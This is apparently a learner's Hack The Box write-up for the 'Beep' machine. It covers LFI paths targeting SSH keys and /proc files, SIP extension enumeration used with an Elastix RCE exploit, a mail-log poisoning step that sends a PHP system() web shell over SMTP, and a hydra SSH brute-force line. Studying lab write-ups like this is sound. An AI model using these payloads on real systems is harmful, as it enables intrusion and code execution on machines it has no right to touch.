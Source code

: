 # Beep Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

# ${{\color{purple}Initial Foothold}}\ $

* First point when he have a security TLS error in firefox like this 
 ![image](https://user-images.githubusercontent.com/123066149/217526766-f4604150-68a0-465c-8ade-30c2f22b9e17.png)

You have to go to the firefox settings and accept the depreciated protocols -> new tab -> about:config -> security.version.enable-deprecated (true)

# ${{\color{purple}Exploitation}}\ $

LFI tips: 
- /var/lib/<username>/.ssh/id_rsa%00
- /proc/self/status%00 (look at the uid of the user and look at the user who runs the application in `/etc/passwd`)
- check /proc/self/about%00 (check the possible user agent `<?php echo "hello"; ?>`)
- use the burp suite intruder to see if there are any other accessible files
 
SIP tips: 
- if I am in front of a SIP phone I can use `svmap`
 `svmap 10.10.10.7`
 
 ![image](https://user-images.githubusercontent.com/123066149/217537969-6856e779-ba5b-4d18-a566-b5ba7f5af690.png)

 In Elastix 2.2.0 there is a Remote Code Execution and to see how to use it you need to know the extension of the SIP equipment (FreePBX) to find this extension I will use: `svwar`
 
 ![image](https://user-images.githubusercontent.com/123066149/217540202-42ce2dd2-ba52-4b65-9b84-2da904660721.png)

 After that you just have to change the extension value in the exploit :
 
 https://www.exploit-db.com/exploits/18650
 
 ![image](https://user-images.githubusercontent.com/123066149/217540838-b34ce047-8189-477e-bfad-de9ecba90923.png)

 
# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/217532253-26283ba3-dd22-439b-bfbc-8ddf4a65e467.png)
  
`telnet 10.10.10.7 25` 
  
  ### or
  
`nc -nvv 10.10.10.7 25`
  
``EHLO test.beep.htb``
  
``VRFY asterisk@localhost``
  
``mail from:pwned@haha.io``
  
``rcpt to:asterisk@localhost``
  
``data``
  
``Subject: You got owned``
  
``<?php echo system($REQUEST['id']); ?>``
  
``blanck line``
  
``.``
  
![beep2](https://user-images.githubusercontent.com/123066149/217533503-0b8ad502-2a6b-4d82-ba0b-65842e428c39.PNG)

 use burp to try a code execution : `/var/mail/user%00`
  
# ${{\color{purple}Points of Improvement}}\ $

* Improve my directory brute force
* Use `curl -k (https://) -o xxx.png` use -k for allow insecure server connections
* Use `exiftool` for .png
* Use `ctrl + U` to improve a display
* Use vi `:g/nologin/d` to clean up the output of the `/etc/passwd` file
* When i found a `password` and `user` don't hesitate to directly do a bruteforce

`ssh hydra -L users -P pw ssh://IP`
* Use the smart decode function of burp

